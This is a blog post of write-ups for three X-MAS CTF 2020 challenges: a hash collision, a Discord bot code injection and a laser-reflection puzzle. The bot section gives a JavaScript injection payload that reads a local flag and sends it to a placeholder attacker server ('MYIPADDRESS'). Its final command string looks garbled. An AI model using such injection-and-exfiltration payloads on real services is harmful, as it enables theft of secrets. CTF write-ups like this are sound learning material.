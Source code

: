 ```yaml
---
layout: post
title:  "X-MAS CTF writeups"
date:   2020-12-17 12:59:36 +0200
categories: ctf
---
```


These are the writeups for the [X-MAS CTF 2020 by HTsP](https://xmas.htsp.ro/home) challenges that I personally solved.


## Help a Santa helper?

In this challenge you need to find hash collisions for a custom hashing algorithm. After passing the initial challenge using instructions from [here](https://security.stackexchange.com/questions/223157/how-can-i-find-a-sha-256-hash-with-a-given-suffix-using-hashcat) we are presented a menu:

```
Good, you can continue!
Hello, thanks for answering my call, this time we have to break into Krampus' server and recover a stolen flag.
We have to solve a hash collision problem to get into the server.
Sadly, we're on a hurry and you only have 2 actions you can make until we get detected.
Choose what you want to do:
1. hash a message
2. provide a collision
3. exit
```
The hashing algorithm is given in the challenge and it’s using AES and XOR to calculate the hash in 16 byte blocks:

Let’s first hash a 16 byte message, which is the length of and AES block. If we use “00000000000000000000000000000000” as the first hash the output will be directly from the AES algorithm, something like “6ea8be2…1e692df”. We can then calculate the next hash as 3 AES block as follows:

Let’s again use “0000000…0000000” as the first block so the self.hash will be the same as in the first message “6ea8be2…1e692df”. Let’s the set the hash from first message as the second block. It will then get XORed to zero in AES() call which produces the same value as in the previous block. The final hash will then be “6ea8be2…1e692df” XOR “6ea8be2…1e692df” which is zero. Now the algorithm is back to inital state for the third and final round when we again use “0000000…0000000” as the third block which produces exactly the same hash as the first message a.ka. a collision.

As a generalisation the colliding messages are MSG1 and MSG1+HASH_FOR_MSG1+MSG1. You can find the source code to get past the initial challenge below but I chose to enter the hashes manually since there was no time limit.

{% gist a1812fdfb9845cd8d6b28ae2a1f23ce8 %}


## Comfort bot

In this challenge we need to get a Discord bot to reveal the flag. The source code is provided as part of the challenge and analysing it quickly reveals a code injection exploit:

![vulnerable code]({{ site.url }}/assets/misc/comfortbot.png)

We can test the vulnerability by sending the bots commands like:
```
comf foo ','
comf foo ',1,'
comf foo ',1,2,'
````

Which translate to function calls like `cleverbot.SendAI('foo',1,2,'')` This takes advantage of the fact that Javascript is a loosely typed language and we can supply any number of arguments to the function. After we verify that the bot answers to these commands we can add JS code to get the flag and make an HTTP request to our own server:

```javascript
window.foo=new XMLHttpRequest();
window.foo.onreadystatechange = function() {window.open("http://MYIPADDRESS/"+this.responseText)}
window.turl = "http://localhost/flag";
window.foo.open("GET",window.turl,true);
window.foo.send();
```
With this code and the fact that function arguments are evaluated left to right the final command to send to the bot is:

```
comf foo',window.foo=new XMLHttpRequest(),window.foo.onreadystatechange = function() {window.open("http://MYIPADDRESS"http://localhost/flag",window.foo.open("GET",window.turl,true),window.foo.send(),'
```


## Krampus' Lazer Tag

 In this challenge you need play 50 rounds of Lazer tag against Krampus in 30 seconds. The instructions are given when you connect to the bot:
![Krampus instructions]({{ site.url }}/assets/krampus/krampustext.png)

For each round we get both Krampus and player positions in x∈(0,1), y∈(0,1). Since the walls are made out of mirrors that reflect lazer we need to consider reflections when placing the lazer blockers. I googled around how to best calculate reflections until I found this page on Google that demonstrates how to simplify the calculations. The main principle is to reduce the reflections to straight lines, which is illustrated in the image below.

<p align="center">
  <img width="460" height="300" src="https://i.stack.imgur.com/tUC3y.gif">
</p>


I setup a Jupyter notebook to visualise the situation and calculate the reflected player positions up to two reflections away:
![Krampus instructions]({{ site.url }}/assets/krampus/krampus1.png)

I then calculate the midpoints where the lazer converges and that will be the blocker 
positions.

![Krampus instructions]({{ site.url }}/assets/krampus/krampus2.png)

Next step is to calculate the reflected positions of the traps back to the [0,1],[0,1] coordinates. They overlap very closely to 16 positions but it’s still necessary to round up the coordinates so that there are only 16 positions since that is how many blockers we are given.

![Krampus instructions]({{ site.url }}/assets/krampus/krampus3.png)

Take a look at the notebook for more details: [LazerTag Jupyter notebook](https://github.com/j11b0/lazertag/blob/main/LazerTag.ipynb) or view the final code:

{% gist 3183bdb9f38fe52a3947064ed0e3bd4a %}
